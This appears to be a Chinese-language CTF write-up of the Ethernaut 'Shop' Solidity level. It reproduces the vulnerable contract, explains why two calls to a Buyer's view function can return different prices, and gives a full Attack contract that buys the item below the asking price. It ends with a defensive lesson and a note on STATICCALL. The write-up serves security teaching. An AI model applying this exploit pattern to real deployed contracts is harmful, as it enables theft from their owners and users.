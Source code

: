 # Shop

> Сan you get the item from the shop for less than the price asked?
>
> ##### Things that might help:
>
> - `Shop` expects to be used from a `Buyer`
> - Understanding restrictions of view functions

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

## 攻击思路

只要两次调用price的结果不同即可。view函数不能修改变量，只能读取变量。但如果某一变量进行了改变，view函数是不会检查的



## 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}

contract Attack {

    function price() external view returns (uint){
       Shop shop = Shop(0xD99563F29407DE857dfE81EDC74bf4072e43be34);
       if (shop.isSold()){
           return 0;
       }else{
           return 200;
       }
    }

    function buy() public{
        Shop shop = Shop(0xD99563F29407DE857dfE81EDC74bf4072e43be34);
        shop.buy();
    }
}

```

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.

## 注意

如果编译器的 EVM 目标是拜占庭或更新的(默认)，则在调用 `view` 函数时使用操作码 `STATICCALL`，这将强制状态在执行EVM时保持不变。对于库 `view` 函数使用了 `DELEGATECALL`，因为没有组合 `DELEGATECALL` 和`STATICCALL`。这意味着库 `view` 函数没有防止状态修改的运行时检查。这应该不会对安全性产生负面影响，因为库代码通常在编译时已知，而静态检查器执行编译时检查。



